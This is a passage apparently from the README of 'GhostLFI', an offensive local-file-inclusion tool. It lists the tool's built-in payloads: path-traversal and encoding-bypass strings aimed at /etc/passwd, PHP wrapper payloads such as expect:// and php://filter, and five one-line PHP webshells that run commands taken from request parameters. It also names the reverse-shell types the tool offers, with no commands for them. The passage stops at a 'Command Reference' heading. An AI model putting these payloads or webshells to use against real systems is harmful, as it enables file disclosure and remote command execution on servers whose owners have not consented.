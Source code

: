 
## 🔥 Integrated Features

### Built-In Payload Generation

GhostLFI generates payloads internally - no separate tools needed!

**LFI Bypass Payloads:**
```python
- Basic traversal: ../../../../etc/passwd
- Null byte: ../../../../etc/passwd%00
- Double encoding: %252e%252e%252f
- Path truncation: ../../../../etc/passwd/////////...
- Dot truncation: ../../../../etc/passwd/.........
- URL encoding: ..%2f..%2f..%2f
- Double traversal: ....//....//....//
- Backslash: ..\\..\\..\\ (Windows)
- Mixed encoding: %2e%2e%2f
- Absolute path: /etc/passwd
```

**Wrapper Payloads:**
```python
- expect://id
- data://text/plain;base64,[B64_ENCODED]
- data://text/plain,[URL_ENCODED]
- php://input (with POST data)
- php://filter/convert.base64-encode/resource=
```

**Webshells:**
```php
- <?php system($_GET["cmd"]); ?>
- <?php system($_REQUEST["cmd"]); ?>
- <?php system($_POST["cmd"]); ?>
- <?php eval($_REQUEST["cmd"]); ?>
- <?php passthru($_GET["cmd"]); ?>
```

**Reverse Shells:**
```bash
- Bash TCP
- Python socket
- Python3 socket
- Perl socket
- Netcat
- Netcat mkfifo
- PHP socket
- Ruby socket
```

---

## 🎯 Command Reference
